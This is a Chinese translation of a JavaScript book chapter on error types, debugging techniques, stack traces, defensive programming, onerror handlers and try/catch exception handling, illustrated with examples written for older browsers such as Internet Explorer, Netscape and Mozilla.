令人遗憾的是，JavaScript 可以在不违反浏览器安全策略的情况下，对用户的浏览器和操作系统造成严重破坏。简单的代码消耗内存或其他资源就能迅速导致浏览器甚至操作系统本身崩溃。欺骗性编程手段可以用来骚扰或诱骗用户执行他们可能不打算进行的操作。然而，干净、小心的编码并不能解决所有与 JavaScript 相关的安全问题。接受用户输入的 Web 应用程序需要谨慎地在接受之前正确验证这些数据，并在写入网页之前对其进行净化。未能做到这一点可能导致跨站脚本漏洞，其危害与违反同源策略一样严重。由于潜在问题的范围广泛，个别开发者有责任编写干净、小心的代码来改善用户体验，并时刻警惕恶意用户试图绕过他们的检查。

## 第 23 章：JavaScript 编程实践

在本章中，我们通过强调一些 JavaScript 在"现实世界"中的推荐实践和突出问题，来结束我们对 JavaScript 的讨论。我们的重点是错误和调试，以及利用防御性编程技术编写健壮的 JavaScript。我们还将涉及一些分发问题，如保护代码和减少下载时间，并讨论 JavaScript 在整个 Web 大局中的定位。本章的讨论将多年的编程经验浓缩到几十页中，以便开发者——尤其是新手——能够通过仔细考虑这里呈现的内容，为自己和用户省去一些麻烦。

### 错误

在开始讨论如何发现和如何处理错误之前，了解典型脚本中错误的分类是很有用的。脚本执行过程中可能出现的各种错误大致可分为三类：语法错误、运行时错误和语义错误。

#### 语法错误

在这三种错误类型中，*语法错误* 是最明显的。它们发生在你编写的代码以某种方式违反了 JavaScript 语言规则时。例如，以下代码：

```
var x = y + * z;
```

就是一个语法错误，因为 * 运算符的语法要求两个操作表达式，而 "y +" 不构成有效的表达式。另一个例子是：

```
var myString = "This string doesn't terminate
```

因为字符串字面量没有正确闭合。

语法错误通常是 *致命的*，因为解释器无法从中恢复。它们之所以致命，是因为引入了 *歧义*，而语言语法的设计正是为了避免这种歧义。有时解释器可以假设程序员的意图，并继续执行脚本的其余部分。例如，对于未闭合的字符串字面量，解释器可能假设字符串在行尾结束。然而，有语法错误的脚本在所有实际用途中都应被视为不正确的，即使它们以某种方式运行，因为它们不构成有效的程序，其行为可能因此不稳定、具有破坏性或其他异常。

幸运的是，语法错误相当容易发现，因为它们在脚本执行前的解析阶段就会立即显现。你无法将语法错误隐藏起来不让解释器发现，除非把它放在注释中。即使将其放在永远不会执行的块中，如：

```
if (false) { x = y + * z }
```

仍然会导致错误。原因正如我们之前所说，这类错误出现在脚本解析阶段，而解析发生在执行之前。

你可以通过在浏览器中打开错误警告然后加载脚本，或者使用本章后面讨论的一种调试器，来轻松避免语法错误。

#### 运行时错误

第二类错误是 *运行时错误*，顾名思义：它们发生在脚本运行期间。这些错误源于语法正确的 JavaScript，但在执行环境中遇到了某种问题。常见的运行时错误包括试图访问不存在的变量、属性、方法或对象，或试图使用不可用的资源。

有些运行时错误可以通过检查源代码发现。例如：

```
window.allert("Hi there");
```

会导致运行时错误，因为 **Window** 对象没有 **alert()** 方法。这个例子构成完全合法的 JavaScript，但解释器在运行时之前无法知道调用 **window.allert()** 是无效的，因为这样的方法可能已经在执行期间的某个时刻作为实例属性被添加了。

其他类型的运行时错误无法通过检查源代码来发现。例如，虽然以下代码看起来似乎没有错误：

```
var products = ["Widgets", "Snarks", "Phasers"];

var choice = parseInt(prompt("Enter the number of the product you are interested in"));

alert("You chose: " + products[choice]);
```

但如果用户为 *choice* 输入负值会发生什么？运行时错误会提示数组索引越界。

虽然一些防御性编程可以在这里提供帮助：

```
var products = ["Widgets", "Snarks", "Phasers"];

var choice = parseInt(prompt("Enter the number of the product in which you are interested"));

if (choice >= 0 && choice < products.length)

    alert("You chose: " + products[choice]);
```

但现实是，你无法在运行时错误发生之前捕获所有潜在的错误。不过，你可以使用 JavaScript 的错误和异常处理机制在运行时捕获它们，这将在本章后面讨论。

#### 语义错误

最后一类错误，*语义错误*，发生在程序执行了一条与程序员预期效果不同的语句时。这些错误更难发现，因为它们往往在奇怪或不寻常的情况下才会出现，因此在测试期间被忽视。最常见的语义错误源于 JavaScript 的弱类型；例如：

```
function add(x, y)

{

    return x + y;

}

var mySum = add(prompt("Enter a number to add to five",""), 5);
```

如果程序员希望 **add()** 返回其两个参数的数值之和，那么前面的代码就是一个语义错误，因为 *mySum* 被赋值为字符串而不是数字。原因当然是 **prompt()** 返回字符串，导致 **+** 充当字符串连接运算符，而非数值加法运算符。

语义错误最常由与用户交互引发。通常可以通过在函数中包含显式检查来避免。例如，我们可以重新定义 **add()** 函数以确保参数的类型和数量正确：

```
function add(x, y)

{

    if (arguments.length != 2 || typeof(x) != "number" || typeof(y) != "number")

        return (Number.NaN);
```


```
return x + y;
}
```

另外，**add()** 函数也可以改写为尝试将参数转换为数字——例如，使用 **parseFloat()** 或 **parseInt()** 函数。

一般来说，通过采用防御性编程策略，可以避免（或至少减少）语义错误。如果你在编写函数时，预想到用户和程序员会以各种可预见的方式来故意破坏它们，就能为自己省去未来的烦恼。编写"偏执"的代码可能看起来有点繁琐，但这样做可以提高代码的可复用性和网站的健壮性（此外还能体现你对软件开发的成熟态度）。

我们的错误分类摘要见表 23-1，接下来的几个小节将详细介绍每种缓解技术。

#### 表 23-1：JavaScript 编程错误的分类

| 错误类型 | 产生原因 | 缓解技术 |
|---|---|---|
| 语法错误 | 违反了 JavaScript 语言的规则 | 开启脚本错误报告并使用调试器。 |
| 运行时错误 | 语法上合法的脚本在运行时尝试执行不可能的操作（例如，调用不存在的函数） | 防御性编程、使用异常处理、开启脚本错误报告、使用调试器。 |
| 语义错误 | 脚本执行了程序员非预期的操作 | 防御性编程并使用调试器。 |

### 调试

每个程序员都会犯错，而成为一名更熟练的开发者的重要部分在于磨练你发现和根除代码中错误的直觉。调试是一门最好通过实践经验来学习的技能，虽然基本的调试实践可以教授，但每个程序员都必须发展出自己的方法。在本节中，我们将介绍可以帮助你完成这些任务的工具和技术。

#### 开启错误消息

追踪错误最基本的方法是在浏览器中开启错误信息。默认情况下，Internet Explorer 会在页面发生错误时在状态栏中显示一个错误图标：


双击此图标会打开一个对话框，显示有关所发生特定错误的信息。

由于此图标很容易被忽略，Internet Explorer 提供了一个选项，可以在每次发生错误时自动显示"错误"对话框。要启用此选项，请选择"工具" | "Internet 选项"，然后点击"高级"选项卡。勾选"显示每个脚本错误的通知"复选框，如图 23-1 所示。


**图 23-1：** 在 Internet Explorer 中启用脚本错误通知

虽然 Netscape 3 每次发生错误时都会显示错误对话框，但 Netscape 4+ 和 Mozilla 浏览器会将错误消息发送到一个名为 *JavaScript 控制台* 的特殊窗口。要在 Netscape 和 Mozilla 中查看控制台，请在浏览器的地址栏中输入 `javascript:`。在 Netscape 7+ 和 Mozilla 中，你也可以通过"工具"菜单打开控制台（选择"工具" | "Web 开发"）。不幸的是，由于 Netscape 6+ 和 Mozilla 在发生错误时不会给出任何视觉提示，你必须保持 JavaScript 控制台处于打开状态，并在脚本执行过程中监视错误。

**注意** *在 Netscape 6 中，JavaScript 控制台位于"任务"菜单中（选择"任务" | "工具"）。*

#### 错误通知

在 JavaScript 控制台或 Internet Explorer 对话框中显示的错误通知是语法错误和运行时错误的结果。加载包含上一个示例中语法错误的文件，**var myString = "This string doesn't terminate**，会产生图 23-2 中的错误对话框和 JavaScript 控制台消息。加载包含上一个示例中运行时错误的文件，**window.alert("Hi there");**，会产生图 23-3 中的错误对话框和 JavaScript 控制台。


**图 23-2：** Internet Explorer（上）和 Mozilla（下）中的语法错误


**图 23-3：** Internet Explorer（上）和 Mozilla（下）中的运行时错误

这种错误报告的一个非常有用的特性是它包含了错误发生的行号。然而，你应该知道，有时行号可能会因为外部链接文件而产生偏移。大多数情况下，错误消息相当容易理解，但有些消息不如其他消息那么具有描述性，因此在这里明确提到一些常见错误是有用的。

### 常见错误

表 23-2 列出了一些常见的 JavaScript 错误及其症状。此列表并非详尽无遗，但它确实包含了初学者程序员犯的大多数错误。在此列表中，与类型不匹配和访问表单元素相关的错误可能是初学者最难发现的，因此在与表单或其他用户输入数据交互时应特别注意。

**表 23-2：常见 JavaScript 错误及其症状**

| 错误 | 示例 | 症状 |
|---|---|---|
| 无限循环 | `while (x<myarray.length) doSomething(myarray[x]);` | 堆栈溢出错误或页面完全无响应。 |
| 使用赋值代替比较（反之亦然） | `if (x = 10) // 或 var x == 10;` | 被覆盖的或意外的值。某些 JavaScript 实现会自动修复此类错误。许多程序员将变量放在比较的右侧，以便在发生这种情况时产生错误。例如，if (10 = x)。 |
| 未终止的字符串字面量 | `var myString = "Uh oh` | "未终止的字符串字面量"错误消息或代码运行异常。 |
| 括号不匹配 | `if (typeof(x) == "number" alert("Number");` | "语法错误"、"缺少 ')'" 或 "需要 ')'" 错误消息。 |
| 花括号不匹配 | `function mult(x,y) { return (x,y);` | 作为函数或条件的一部分执行的额外代码、未定义的函数，以及 "需要 `}`"、"缺少 `}`" 或 "不匹配的 `}`" 错误消息。 |
| 方括号不匹配 | `x[0 = 10;` | "无效赋值"、"需要 `]`" 或 "语法错误" 错误消息。 |
| 分号位置错误 | `if (isNS4 == true); hideLayers();` | 条件语句总是被执行、函数提前返回或返回错误的值，并且通常会出现与未知属性相关的错误。 |
| 遗漏 "break" 语句 | `switch(browser) { case "IE": // IE 特定 case "NS": // NS 特定 }` | **switch** 后半部分的语句总是被执行，并且通常也会出现与未知属性相关的错误。 |
| 类型错误 | `var sum = 2 + "2";` | 具有意外类型的值、需要特定类型的函数无法正常工作，以及计算结果为 **NaN**。 |
| 访问 `undefined` 变量 | `var x = variableName;` | "*variableName* is not defined"（变量未定义）错误消息。 |
| 访问不存在的对象属性 | `var x = window.propertyName;` | 在非预期位置出现 **undefined** 值、计算结果为 **NaN**，或 "*propertyName* is null or not an object"（属性为空或不是对象）以及 "*objectName* has no properties"（对象没有属性）错误消息。 |
| 调用不存在的方法 | `window.methodName()` | "*methodName* is not a function"（方法不是函数）或 "object doesn't support this property or method"（对象不支持此属性或方法）错误消息。 |
| 调用 `undefined` 函数 | `noSuchFunction();` | "object expected"（需要对象）或 "*noSuchFunction* is not defined"（函数未定义）错误消息。 |
| 在文档完成加载之前访问它 | `<head><script>var myElement=document.all.myElement;</script></head>` | **undefined** 值、与不存在的属性和方法相关的错误、页面加载后消失的临时性错误。 |
| 访问表单元素而非其值 | `var x = document.myform.myfield;` | 计算结果为 **NaN**、HTML-JS 引用断裂，以及表单"验证"始终拒绝输入。 |
| 假设检测到某个对象或方法就意味着所有与该检测对象相关的其他功能都存在 | `if (document.layers) { // 执行 Netscape 4 相关代码 } if (document.all) { // 执行各种 IE 相关代码 }` | 可能会产生抱怨不存在的对象或属性的错误消息，因为假设了被检测对象之外的其他专有对象存在并加以使用。 |


使用某种能匹配括号并对代码进行语法高亮的集成开发环境（IDE）或Web编辑器，通常有助于避免语法错误。这类程序能自动显示括号和方括号的匹配位置，并为脚本的不同部分提供视觉提示。例如，注释可能显示为红色，关键字显示为蓝色，字符串字面量则显示为黑色。

### 调试技术

虽然开启错误信息并检查常见错误可以帮助你找到代码中一些最明显的错误，但这样做通常对发现语义错误没什么帮助。然而，在尝试找出代码运行异常的原因时，许多开发者会采用一些普遍的做法。

#### 手动输出调试信息

最常见的技术之一是在脚本运行时输出详细的运行状态信息，以验证执行流程。例如，可以在脚本开头设置一个调试标志，用来启用或禁用每个函数中包含的调试输出。在JavaScript中，最常用的信息输出方式是使用 **alert()** 方法；例如，你可能会写类似这样的代码：

```
var debugging = true;
var whichImage = "widget";
if (debugging)
    alert("About to call swapImage() with argument: " + whichImage);
var swapStatus = swapImage(whichImage);
if (debugging)
    alert("Returned from swapImage() with swapStatus=" + swapStatus);
```

并在 *swapImages()* 函数中添加 **alert()** 来标记执行流程。通过检查这些 **alert()** 出现时的内容和顺序，你可以获得一个观察脚本内部状态的窗口。

因为在调试大型或复杂脚本时使用大量 **alert()** 可能不切实际（更不用说烦人了），所以调试信息通常会被发送到另一个浏览器窗口。使用这种技术时，脚本开始时会打开一个新窗口，比如 *debugWindow*，然后使用类似 ***debugWindow.document.write()*** 的语法将调试信息写入该窗口。唯一可能遇到的问题是，你需要等待窗口实际打开后才能尝试向其 **write()**。关于窗口间通信的更多信息，请参阅第12章。

**堆栈跟踪** 当一个函数调用另一个函数时，解释器必须跟踪调用函数，以便在被调用函数返回时知道从何处继续执行。此类记录存储在 *调用栈* 中，每个条目包含调用函数的名称、调用行号、函数的参数以及其他局部变量信息。例如，考虑这段简单的代码：

```
function a(x)
{
    document.write(x);
}

function b(x)
{
    a(x+1);
}

function c(x)
{
    b(x+1);
}

c(10);
```

在 *a()* 中的 **document.write** 处，调用栈大致如下：

- **a(12)**，第3行，局部变量信息...
- **b(11)**，第7行，局部变量信息...
- **c(10)**，第11行，局部变量信息...

当 *a()* 返回后，*b()* 将在第8行继续执行；当它返回后，*c()* 将在第12行继续执行。

调用栈的列表称为 *堆栈跟踪*，在调试时非常有用。Mozilla提供了 **Error** 对象的 **stack** 属性（在下一节详细讨论）正是用于这种场合。我们可以在Mozilla中增强前面的例子来输出堆栈跟踪：

```
function a(x)
{
    document.writeln(x);
    document.writeln("\n----Stack trace below----\n");
    document.writeln((new Error).stack);
}

function b(x) {
    a(x+1);
}

function c(x) {
    b(x+1);
}

c(10);
```

输出如 [图 23-4](Figure%2023-4) 所示。跟踪信息的顶部显示调用了 **Error()** 构造函数。下一行表明调用该错误构造函数的是 *a()*，其参数为 **10**。该行上的其他数据指示了定义此函数的文件名（在@符号之后）以及解释器当前执行的行号（在冒号之后）。后续行显示了我们预期的调用函数，最后一行显示在当前执行文件的第16行调用了 *c()*（调用 *c()* 不在任何函数内部，因此栈上的记录不列出函数名）。


图 23-4：在Mozilla中使用Error.stack获取堆栈跟踪

其他浏览器没有提供获取堆栈跟踪的便捷机制，但考虑到第5章讨论的 **Function** 属性，我们可以自己构建其应有的样子。

```
// Helper function to parse out the name from the text of the function
function getFunctionName(f)
{
    if (/function (\w+)/.test(String(f)))
        return RegExp.$1;
    else
        return "";
}

// Manually piece together a stack trace using the caller property
function constructStackTrace(f)
{
    if (!f)
        return "";

    var thisRecord = getFunctionName(f) + "(";
    for (var i = 0; i < f.arguments.length; i++) {
        thisRecord += String(f.arguments[i]);
        // add a comma if this isn't the last argument
        if (i + 1 < f.arguments.length)
            thisRecord += ", ";
    }
    return thisRecord + ")\n" + constructStackTrace(f.caller);
}

// Retrieve a stack trace. Works in Mozilla and IE.
function getStackTrace() {
    var err = new Error;
    // if stack property exists, use it; else construct it manually
    if (err.stack)
        return err.stack;
    else
        return constructStackTrace(getStackTrace.caller);
}
```

现在我们可以这样重写示例：

```
function a(x)
{
    document.writeln(x);
    document.writeln("\n----Stack trace below----\n");
    document.writeln(getStackTrace());
}

function b(x)
{
    a(x+1);
}

function c(x)
{
    b(x+1);
}

c(10);
```

在Internet Explorer中的输出如 [图 23-5](http://example.com) 所示。


**图 23-5：** 手动构建的堆栈跟踪

这是一个在外部脚本中进行调试的便捷函数。然而，这个函数的能力和我们到目前为止讨论的技术还有很多不足之处。它们依赖于在脚本中手动插入调试代码，并且不提供任何交互性。幸运的是，专门的工具能够在运行时对代码进行更深入的检查。

#### 使用调试器

*调试器* 是一种应用程序，它将脚本执行的所有方面都置于程序员的控制之下。调试器通过一个允许你检查和设置值以及控制执行流程的接口，提供对脚本状态的精细控制。

一旦脚本被加载到调试器中，它可以逐行运行，或者被指示在特定的 *断点* 处暂停。其思想是，一旦执行暂停，程序员就可以检查脚本及其变量的状态，以确定是否有问题。你还可以 *监视* 变量值的变化。当变量被监视时，每当其值发生变化，调试器就会暂停执行。这对于追踪那些神秘地被破坏的变量非常有用。大多数调试器还允许你检查堆栈跟踪，即我们在 [上一节](http://example.com) 中看到的代表代码执行流程的调用树。最重要的是，调试器通常被编程为在遇到潜在问题代码时提醒程序员。并且由于调试器是专门为跟踪问题而设计的，它们显示的错误信息和警告往往比浏览器提供的更有帮助。

目前有几种主要的JavaScript调试器在使用。目前最受欢迎的免费调试器是Venkman，它是Mozilla项目的调试器。它与Mozilla和Netscape 6+集成，并提供了大多数开发者可能需要的所有功能，包括一个能让你测量代码性能的性能分析器。如果你安装了Mozilla系列浏览器的“完整”版本，这个调试器已经可供你使用。如果没有，请使用基于Mozilla的浏览器访问 [http://www.mozilla.org/projects/venkman/](http://www.mozilla.org/projects/venkman/) 并按照安装说明操作。这应该和点击你想要版本的.xpi文件一样简单。要启动调试器，请选择工具 | Web开发 | JavaScript调试器。 [图 23-6](http://example.com) 显示了Venkman的截图。


### 防御性编程

防御性编程是一种在恶劣条件下编写仍能正常运行代码的艺术。在 Web 环境中，“恶劣条件”可能指许多不同情况：例如，用户使用非常旧的浏览器，或者嵌入的对象或框架在加载时卡住。进行防御性编程需要意识到哪些情况可能出问题。你应该尝试处理的一些最常见可能性包括：

-   关闭了 JavaScript 的用户
-   关闭了 Cookie 的用户
-   抛出异常的嵌入式 Java 小程序
-   加载不正确或不完整的框架或嵌入对象
-   不支持现代 JavaScript 对象或方法的旧版浏览器
-   JavaScript 实现不完整的旧版浏览器——例如，那些不支持特定功能（如 Internet Explorer 5.5 之前版本中 **Array** 对象的 **push()**、**pop()** 及相关方法）的浏览器
-   存在已知错误的浏览器，例如早期 Netscape 浏览器中功能不正常的 **Date** 对象
-   使用文本或语音浏览器的用户
-   使用非 Windows 平台的用户
-   试图通过你的脚本滥用服务或资源的恶意用户
-   在表单字段或对话框中输入拼写错误或其他无效数据的用户，例如在需要数字的字段中输入字母

防御性编程的关键在于灵活性。你应该努力适应尽可能多的不同客户端配置和操作。从编码的角度来看，这意味着你应该包含 HTML（如 `<noscript>` 标签）和浏览器检测代码，以允许功能在各种平台上优雅降级。从测试的角度来看，这意味着在将脚本上线之前，你应该始终在尽可能多的不同浏览器和版本以及尽可能多的不同平台上运行它。

除了处理上述一般性问题外，你还应该考虑你的脚本可能出现的具体问题。如果你不确定你使用的某个特定语言功能是何时添加到 JavaScript 中的，最好的做法是查阅参考资料，例如本书的 **附录 B**，以确保它被广泛支持。如果你使用的是动态页面操作技术或尝试访问嵌入对象，你可能需要考虑是否已编写了适当的代码，以防止在文档仍在加载时执行脚本。如果你链接了外部 .js 库，你可以在每个库中添加一个全局变量形式的标志，以便检查该标志，确保脚本已正确加载。

以下各节概述了可用于防御性编程的各种具体技术。虽然没有任何单一的思想或方法集是万能药，但将以下原则应用于你的脚本可以显著减少客户遇到的错误。此外，它们可以帮助你更及时地解决遇到的错误，并使你的脚本能够“面向未来”，适应新的浏览器和行为。

然而，归根结底，防御性编程的效果取决于开发者个人的技能、经验和对细节的关注。如果你能想到用户破坏你的脚本或导致某种故障的方法，这通常是一个好迹象，表明需要更多的防御性技术。

### 错误处理器

Internet Explorer 3+ 和 Netscape 3+ 通过 **Window** 对象的非标准 **onerror** 处理器提供基本的错误处理功能。通过设置此事件处理器，你可以增强或替换与页面运行时错误关联的默认操作。例如，你可以替换或抑制 Netscape 3 和 Internet Explorer（开启调试模式时）中显示的错误消息，以及 Netscape 4+ 中输出到 JavaScript 控制台的消息。可以设置 **window.onerror** 的值及其效果概述见 **表 23-3**。

#### 表 23-3：window.onerror 的值及效果

| window.onerror 的值 | 效果 |
|---|---|
| **Null** | 在 Netscape 3+ 中抑制运行时错误的报告。 |
| 一个函数 | 每当发生运行时错误时执行该函数。如果函数返回 **true**，则抑制运行时错误的正常报告。如果返回 **false**，则错误照常在浏览器中报告。 |

> **注意** ***onerror*** **处理器在许多浏览器中也可用于** **Window** **以外的对象，最显著的是** **``** **和** **`<object>`** **元素。**

例如，要在旧版浏览器中抑制错误消息，你可以使用

```
function doNothing() { return true; }

window.onerror = doNothing;

window.noSuchProperty()    // throw a runtime error
```

由于现代浏览器通常不会显示脚本错误，除非用户特别配置它们这样做，因此返回值的效用有限。

**onerror** 处理器真正有用的功能是浏览器会自动传递三个值给它们。第一个参数是一个字符串，包含描述所发生错误的错误消息。第二个是包含生成错误的页面 URL 的字符串，如果文档有框架，该 URL 可能与当前页面不同。第三个参数是一个数值，指示错误发生的行号。

> **注意** ***Netscape 6 的早期版本未将这些值传递给*** **onerror** ***处理器。***

你可以使用这些参数创建自定义错误消息，例如

```
function reportError(message, url, lineNumber)
{
  if (message && url && lineNumber)
    alert("An error occurred at " + url + ", line " + lineNumber +
      "\nThe error is: " + message);
  return true;
}

window.onerror = reportError;       // assign error handler
window.noSuchProperty();            // throw an error
```

在 Internet Explorer 中，其结果可能如下所示

关于使用 **onerror** 处理器有两个重要问题。第一个是此处理器仅在运行时错误时触发；语法错误不会触发 **onerror** 处理器，并且通常无法抑制。第二个是此处理器在某些版本的 Internet Explorer 下支持情况不一。虽然 Internet Explorer 4、5.5 和 6 似乎有完整支持，但某些版本的 Internet Explorer 5.0 可能存在问题。


### 自动错误报告

此功能的一个有趣用途是为您的网站添加自动错误报告。您可以捕获错误并将信息发送到新浏览器窗口，该窗口会自动将数据提交给 CGI，或加载可用于执行此操作的页面。我们通过以下代码来说明这一概念。假设您的服务器上有一个 CGI 脚本 submitError.cgi，它接受错误数据并自动通知网站管理员或将信息记录以供日后审查。然后您可以编写以下页面，该页面从打开它的文档中检索数据，并允许用户包含有关发生情况的更多信息。在我们的示例中，此文件名为 errorReport.html：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Error Submission</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
<script type="text/javascript">
<!--
/* fillValues() is invoked when the page loads and retrieves error data
from the offending document */
function fillValues()
{
    if (window.opener && !window.opener.closed && window.opener.lastErrorURL)
    {
        document.errorForm.url.value = window.opener.lastErrorURL;
        document.errorForm.line.value = window.opener.lastErrorLine;
        document.errorForm.message.value = window.opener.lastErrorMessage;
        document.errorForm.userAgent.value = navigator.userAgent;
    }
}
// -->
</script>
</head>
<body onload="fillValues();">
<h2>An error occurred</h2>
Please help us track down errors on our site by describing in more detail what you were doing when the error occurred. Submitting this form helps us improve the quality of our site, especially for users with your browser.

<form id="errorForm" name="errorForm" action="/cgi-bin/submitError.cgi">

The following information will be submitted:<br />

URL: <input type="text" name="url" id="url" size="80" /><br />

Line: <input type="text" name="line" id="line" size="4" /><br />

Error: <input type="text" name="message" id="message" size="80" /><br />

Your browser: <input type="text" name="userAgent" id="userAgent" size="60" />

<br />

Additional Comments:<br />

<textarea name="comments" cols="40" rows="5"></textarea><br />

<input type="submit" value="Submit to webmaster" />

</form>

</body>

</html>
```

脚本的另一部分放置在您网站的每个页面上，并提供 *fillValues()* 所需的信息。它通过为 **onerror** 设置处理程序来实现这一点，该处理程序存储错误数据并在发生运行时错误时自动打开 errorReport.html：

```javascript
var lastErrorMessage, lastErrorURL, lastErrorLine;

// variables to store error data

function reportError(message, url, lineNumber)
{
    if (message && url && lineNumber)
    {
        lastErrorMessage = message;

        lastErrorURL = url;

        lastErrorLine = lineNumber;

        window.open("errorReport.html");
    }

    return true;

}

window.onerror = reportError;
```

当 errorReport.html 因错误而打开时，它从打开它的窗口（出现错误的窗口）中检索相关数据，并以表单形式将数据呈现给用户。图 23-9 显示了因以下运行时错误而打开的窗口：


```javascript
window.noSuchMethod();
```

前四个表单值由 *fillValues()* 自动填充，*\<textarea\>* 显示了用户输入的假设描述。当然，此页面的呈现需要一些改进（特别是在 Netscape 4 下），但概念是可靠的。

#### 异常

*异常*是错误概念的泛化，包括执行期间遇到的任何意外情况。虽然错误通常与某些不可恢复的情况相关，但异常可以在更良性的问题情况下生成，通常不是致命的。JavaScript 1.4+ 和 JScript 5.0+ 支持异常处理，这是它们向 ECMAScript 一致性迈进的结果。

当生成异常时，称为被*抛出*（或在某些情况下，*引发*）。浏览器可能会响应各种任务抛出异常，例如不正确的 DOM 操作，但异常也可以由程序员甚至嵌入式 Java 小程序抛出。处理异常称为*捕获*异常。异常通常由程序员在执行他或她知道可能有问题的操作时显式捕获。*未捕获*的异常通常作为运行时错误呈现给用户。

#### Error 对象

当抛出异常时，有关异常的信息存储在 **Error** 对象中。此对象的结构因浏览器而异，但其最有趣的属性及其支持情况在表 23-4 中描述。

| 属性 | IE5? | IE5.5+? | Mozilla/NS6+? | ECMA? | 描述 |
| --- | --- | --- | --- | --- | --- |
| **Description** | Yes | Yes | No | No | 描述异常性质的字符串。 |
| **fileName** | No | No | Yes | No | 指示抛出异常的文档 URL 的字符串。 |
| **LineNumber** | No | No | Yes | No | 指示生成异常的语句行号的数值。 |
| **message** | No | Yes | Yes | Yes | 描述异常性质的字符串。 |
| **name** | No | Yes | Yes | Yes | 指示异常类型的字符串。此属性的 ECMAScript 值为 EvalError、RangeError、ReferenceError、SyntaxError、TypeError 和 URIError。 |
| **number** | Yes | Yes | No | No | 指示异常的 Microsoft 特定错误号的数字。此值可能与文档大相径庭，并且版本之间也可能不同。 |
| **stack** | No | No | Yes | No | 包含异常发生时调用堆栈的字符串。 |

表 23-4：Error 对象的属性因浏览器而异

**Error()** 构造函数可用于创建特定类型的异常。语法为

```javascript
var variableName = new Error(message);
```

其中 *message* 是一个字符串，指示异常应具有的 *message* 属性。不幸的是，Internet Explorer 5 和某些早期版本的 5.5 对 **Error()** 构造函数参数的支持特别差，因此您可能需要手动设置 **message** 属性，例如

```javascript
var myException = new Error("Invalid data entry");
myException.message = "Invalid data entry";
```

您还可以创建表 23-4 的 **name** 行中给出的特定 ECMAScript 异常的实例。例如，要创建语法错误异常，您可以编写

```javascript
var myException = new SyntaxError("The syntax of the statement was invalid");
```

然而，为了将用户创建的异常与解释器生成的异常分开，通常最好坚持使用 **Error** 对象，除非您有特定的理由不这样做。

#### try、catch 和 throw

异常使用 **try/catch** 结构捕获。语法为

```javascript
try {
    statements that might generate an exception
} catch (theException) {
    statements to execute when an exception is caught
} finally {
    statements to execute unconditionally
}
```

如果 **try** 块中的语句抛出异常，则跳过该块的其余部分并立即执行 **catch** 块。抛出的异常的 **Error** 对象放置在 **catch** 块的"参数"中（在本例中为 *theException*，但任何标识符都可以）。*theException* 实例只能在 **catch** 块内部访问，不应该是先前声明的标识符。**finally** 块在 **try** 或 **catch** 块完成时执行，在其他语言中用于执行与尝试过的语句相关的清理工作。然而，由于 JavaScript 执行垃圾回收，**finally** 块通常不是很有用。

请注意，**try** 块后面必须紧跟一个 **catch** 或一个 **finally**（或两者各一个），因此单独使用 **try** 或尝试使用多个 **catch** 块将导致语法错误。但是，嵌套的 **try**/**catch** 结构是完全合法的，如下所示：

```javascript
try {
    // some statements to try
    try {
        // some statements to try that might throw a different exception
    } catch(theException) {
        // perform exception handling for the inner try
    }
} catch (theException) {
    // perform exception handling for the outer try
}
```

创建 **Error** 的实例不会导致异常被抛出。您必须使用 **throw** 关键字显式抛出它。例如，使用以下代码，

```javascript
var myException = new Error("Couldn't handle the data");
throw myException;
```

在 Mozilla 的 JavaScript 控制台中的结果是


在启用了调试功能的 Internet Explorer 中，也会报告类似的错误。

> **注意** *你可以**抛出**任何你喜欢的值，包括原始字符串或数字，但创建并抛出一个**Error**实例是更好的策略。*

为了说明异常的基本用法，考虑一个以两个参数为自变量的数值计算（数学功底深厚的读者会认出这是 sin(a + b) 的恒等式）。使用前面讨论过的防御性编程技术，我们可以显式地进行类型检查或将参数转换为数值，以确保计算的有效性。我们选择在此使用异常来进行类型检查（为清晰起见，假设浏览器已被确定支持 JavaScript 异常）：

```
function throwMyException(message)
{
    var myException = new Error(message);
    throw myException;
}

function sineOf(a, b)
{
    var result;
    try
    {
        if (typeof(a) != "number" || typeof(b) != "number")
            throwMyException("The arguments to sineOf() must be numeric");
        if (!isFinite(a) || !isFinite(b))
            throwMyException("The arguments to sineOf() must be finite");
        result = Math.sin(a) * Math.cos(b) + Math.cos(a) * Math.sin(b);
        if (isNaN(result))
            throwMyException("The result of the computation was not a number");
        return result;
    } catch (theException) {
        alert("Incorrect invocation of sineOf(): " + theException.message);
    }
}
```

正确调用此函数，例如：

```
var myValue = sineOf(1, .5);
```

会返回正确的值；但错误地调用：

```
var myValue = sineOf(1, ".5");
```

则会产生一个异常，具体如下：


##### 现实世界中的异常

异常是从问题条件中进行通知和恢复的首选方法，但现实情况是，即使在许多现代 Web 浏览器中，它们也没有得到良好的支持。为了兼容 Internet Explorer 5.x 和 Netscape 6 中非 ECMAScript 的 **Error** 属性，你可能需要进行某种浏览器检测，才能提取有用的信息。虽然进行简单的异常处理可能很有用，例如：

```
try {
    // do something IE or Netscape specific
} catch (theException) {
}
```

旨在掩盖访问专有浏览器功能时可能出现的失败，但异常在当前实际中的应用主要面向 Java applet 和 DOM。

通过将潜在危险的代码（如对 applet 的 LiveConnect 调用和 DOM 方法的调用）封装在 **try/catch** 结构中，你可以为 JavaScript 带来更成熟语言的一些健壮性。然而，在典型的日常脚本编写任务中使用异常处理可能还需要几年时间才能实现。就目前而言，JavaScript 的异常处理功能最好用在能够对客户端能力做出一定保证的情况下——例如，应用以下两节的概念。如果你能保证用户的浏览器支持它们，就使用它们；否则，最好避免使用。

### 能力检测与浏览器检测

我们在本书中已经看到了一些能力检测和浏览器检测的例子，但仍有一些相关问题值得讨论。为了澄清术语，为接下来的讨论做好准备，我们将*能力检测*定义为探测用户浏览器中是否支持特定的对象、属性或方法。例如，检查 **document.all** 或 **document.getElementById** 就构成了能力检测。我们将*浏览器检测*定义为确定当前使用的浏览器、版本和平台。例如，解析 **navigator.userAgent** 就构成了浏览器检测。

通常，能力检测被用来推断浏览器信息。例如，我们可能探测 **document.layers**，并根据其存在推断浏览器为 Netscape 4.x。反之亦然：通常也会根据浏览器检测来做出能力假设。例如，**userAgent** 字符串中包含 "MSIE 6.0" 和 "Windows" 可能被用来推断可以使用 JavaScript 的异常处理功能。

